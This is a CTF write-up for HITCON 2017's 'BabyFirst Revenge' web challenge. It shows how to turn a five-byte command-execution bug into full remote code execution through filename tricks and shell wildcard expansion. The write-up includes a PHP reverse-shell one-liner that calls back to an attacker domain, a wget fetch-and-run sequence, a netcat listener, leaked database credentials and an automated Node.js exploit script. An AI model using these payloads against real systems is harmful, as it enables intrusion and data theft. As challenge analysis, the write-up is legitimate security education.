 [writeup by @TheNodi]

**CTF:** HITCON 2017 Quals

**Team:** spritzers (from [SPRITZ Research Group](http://spritz.math.unipd.it/))

**Task:** web / BabyFirst Revenge

The following is the challenge script running on the remote server:

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

It just executes every command **if it is 5 or less bytes**, without displaying any output.

We immediately discovered that everyone's sandbox folder was available at `http://52.199.204.34/sandbox/md5(orange+IP)/`. The webserver does not list the folder content, but any file inside it is served: this allows us to save content to a file and view it in the browser.

There is little we can do with <= 5 bytes, apparently. Writing is a bit challenging: it's hard to write inside files, but easy to write (empty) files with names. Executing `>abcd` will create a file named `abcd`.
To execute more useful commands (especially with arguments) we can use shell expansion: it will take a `*` and expand it to all the files in the current directory. This means that, naming files appropriately, we easily can run commands of length <= 4, with arguments <=4, given that `command` precedes `argument` in alphabetical order.

To locate the file, we can use `find` to list every file in the system and check if something looks interesting. We ran `>find` to create a file called `find`, and then `* />z`, which expands to `find / > z`. We opened `z` in the browser and looked at the list of files. The flag probably is inside `/home/fl4444g/README.txt`.

~~There's no way we can read that file with just 5 bytes~~ One of the commands that precedes, in alphabetical order, its option is `tar`. It's probably not very _kosher_ to do, but we `tar`ed the home folders with the above technique, and downloaded the resulting archive. Unfortunately...

```
/home/fl4444g/README.txt
Flag is in the MySQL database
fl4444g / SugZXUtgeJ52_Bvr
```

...we need remote code execution.

We can use shell expansion to call `wget` and download a custom script, but we need to create a file named as our domain.

After some looking around, we found an interesting option of the `mv` command: `-S, --suffix`. We can move files around adding a suffix, a letter at a time. 

Unfortunately to expand properly we need our domain to begin with a letter that comes after `m` (of `mv`), luckily we can use dots so we just created `thedomain.no-ip.org` which points to one of out machines.

On that machine we exposed two things. A web server that answer every request with a reverse shell code, we choose PHP because we know it's available on the target machine: `php -r '$sock=fsockopen("thedomain.no-ip.org",9999);exec("/bin/sh -i <&3 >&3 2>&3");'`. A netcat socket on port `9999` the target machine will connect to: `nc -lp 9999`.

We can now setup the target machine. We create 3 files: `mv` to run our command, `n` as a dumb file for mv, `t` as the starting point of our domain name. We can now keep calling `* -Sh`, which will add the given letter (in this case `h`) to our files. Once we are done, we remove the `mv` file and we create a `wget` file.

Our directory will contain the following files: `wget`, `thedomain.no-ip.or`, `thedomain.no-ip.org`.

We can now run `w* *`, which will expand to `wget thedomain.no-ip.or thedomain.no-ip.org wget`. Wget will try to download files from each of those urls, but only our site will be up, so the content of that will be saved as `index.html`. 

We can now run our `index.html` as a shell script using `sh i*`.

If we switch to our netcat terminal tab, we will find a fancy prompt saying `$` and waiting for our commands. We are done.

Everything else is straightforward:
```
$ cat /home/fl4444g/README.txt
Flag is in the MySQL database
fl4444g / SugZXUtgeJ52_Bvr

$ mysql -u fl4444g -pSugZXUtgeJ52_Bvr -e "show databases;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
fl4gdb

$ mysql -u fl4444g -pSugZXUtgeJ52_Bvr -e "use fl4gdb; show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_fl4gdb
this_is_the_fl4g

$ mysql -u fl4444g -pSugZXUtgeJ52_Bvr -e "use fl4gdb; select * from this_is_the_fl4g;"
mysql: [Warning] Using a password on the command line interface can be insecure.
secret
hitcon{idea_from_phith0n,thank_you:)}
```

Our flag is: `hitcon{idea_from_phith0n,thank_you:)}`

### Automated script
```js
#!/usr/bin/env node
const fetch = require("node-fetch");

function reset() {
    return fetch("http://52.199.204.34/?reset=1");
}

function exec(cmd) {
    return fetch("http://52.199.204.34/?cmd=" + encodeURIComponent(cmd));
}

(async () => {
    await reset();

    await exec(`>mv`);
    await exec(`>n`);

    const address = 'thedomain.no-ip.org';
    for (let i = 0; i < address.length; i++) {
        if (i == 0) {
            await exec(`>${address[i]}`);
        } else {
            await exec(`* -S${address[i]}`);
        }
    }

    await exec(`rm m*`);
    await exec(`>wget`);
    await exec(`w* *`);
    await exec(`sh i*`);

    console.log('OK');
})();
```
